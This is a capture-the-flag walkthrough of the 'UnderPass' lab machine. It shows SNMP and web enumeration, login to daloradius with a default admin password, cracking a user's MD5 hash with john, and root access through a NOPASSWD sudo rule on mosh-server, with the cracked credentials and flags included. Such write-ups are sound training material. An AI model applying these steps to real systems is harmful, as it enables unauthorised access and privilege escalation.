 # CTF Walkthrough: UnderPass

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Information Gathering](#2-information-gathering)
- [3. Foothold](#3-foothold)
- [5. Privilege Escalation](#5-privilege-escalation)

---

## 1. Introduction
 
**Category:** UDP, SNMP, daloradius 
**Difficulty Level:** Easy   
**CVE(s) involved:** 

---

## 2. Information Gathering

### 2.1. Initial Enumeration
- **Add to /etc/hosts**
    - Command: `echo "10.10.11.48 underpass.htb" | sudo tee -a /etc/hosts`

- **Running Services**
    - Command: `nmap -sV -sC underpass.htb`
        - Output:
            ```
            PORT   STATE SERVICE VERSION
            22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
            | ssh-hostkey:
            |   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
            |_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
            80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
            |_http-title: Apache2 Ubuntu Default Page: It works
            |_http-server-header: Apache/2.4.52 (Ubuntu)
            Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

            Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
            Nmap done: 1 IP address (1 host up) scanned in 14.33 seconds
            ```
- **Running Services (UDP)**
    - Command: `nmap -sV -sC -sU --top-ports=100 underpass.htb`
        - Output:
            ```
            PORT     STATE         SERVICE VERSION
            161/udp  open          snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
            | snmp-info:
            |   enterprise: net-snmp
            |   engineIDFormat: unknown
            |   engineIDData: c7ad5c4856d1cf6600000000
            |   snmpEngineBoots: 31
            |_  snmpEngineTime: 3h05m27s
            | snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
            |_  System uptime: 3h05m27.21s (1112721 timeticks)
            1812/udp open|filtered radius
            1813/udp open|filtered radacct
            Service Info: Host: UnDerPass.htb is the only daloradius server in the basin!
            ```

- **SNMP**
    - Command: `snmp-check 10.10.11.48`
        - Output:
            ```
            snmp-check v1.9 - SNMP enumerator
            Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

            [+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

            [*] System information:

              Host IP address               : 10.10.11.48
              Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
              Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
              Contact                       : steve@underpass.htb
              Location                      : Nevada, U.S.A. but not Vegas
              Uptime snmp                   : 03:13:55.32
              Uptime system                 : 03:13:44.90
              System date                   : 2025-5-19 07:37:30.0
            ```
    
    OR

    - Command: `snmpwalk -v 1 -c public underpass.htb`
        - Output:
            ```
            iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"
            iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
            iso.3.6.1.2.1.1.3.0 = Timeticks: (1173841) 3:15:38.41
            iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"
            iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"
            iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"
            iso.3.6.1.2.1.1.7.0 = INTEGER: 72
            iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
            iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
            ```

- **Directory Busting**
    - A quick Google search tells that daloradius operator login page can be found at `/daloradius/app/operators/FUZZ`

    - Commnad: `ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://underpass.htb/daloradius/app/operators/FUZZ -e .php -recursion`
        - Output:
            ```
            login.php               [Status: 200, Size: 2763, Words: 349, Lines: 98, Duration: 110ms]
            logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 106ms]
            ```

## 3. Foothold
- Another quick Google search tells that default password for `administrator` is `radius`

    - Go to Management > Users > List users
        - Output:
            ```
            Username: svcMosh
	        Password: 412DD4759978ACFCC81DEAB01B382403
            ```
        - Crack the hash
            - Save the hash to `hash` file
                - Command: `echo 412DD4759978ACFCC81DEAB01B382403 > hash`

            - Crack the hash
                - Command: `john --format=Raw-MD5 -w=/usr/share/wordlists/rockyou.txt hash`
                    - Output:
                        ```
                        underwaterfriends (?)
                        ```

- **SSH Login**
    - Command: `ssh svcMosh@underpass.htb`
        - Password: underwaterfriends

- **User Flag**:
    - Command: `cat user.txt`
        - Output:
            ```
            1fda5e957f5e86f12b54c84030cc6e84
            ```

## 4. Privilege Escalation
- Check elevating Privileges
    - Command: `sudo -l`
        - Output:
            ```
            Matching Defaults entries for svcMosh on localhost:
                env_reset, mail_badpass,
                secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
                use_pty

            User svcMosh may run the following commands on localhost:
                (ALL) NOPASSWD: /usr/bin/mosh-server
            ```

- Exploit privilege
    - Command: `sudo mosh-server`
        - Output:
            ```
            MOSH CONNECT 60002 I27II6UVclhziVBmcJDXZQ

            mosh-server (mosh 1.3.2) [build mosh 1.3.2]
            Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
            License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
            This is free software: you are free to change and redistribute it.
            There is NO WARRANTY, to the extent permitted by law.

            [mosh-server detached, pid = 3379]

            ```
    - Checking Documentation[https://mosh.org/#usage], we can connect to remote server using `MOSH_KEY=key mosh-client remote-IP remote-PORT`
    - Command: `sudo apt install mosh`
    - Command: `MOSH_KEY=I27II6UVclhziVBmcJDXZQ mosh-client 10.10.11.48 60002`
        - Output:
            ```
            root@underpass:~#
            ```

- **Root Flag**:
    - Command: `cat root.txt`
        - Output:
            ```
            d1a3de914b327f55b5258969eb741f12
            ```









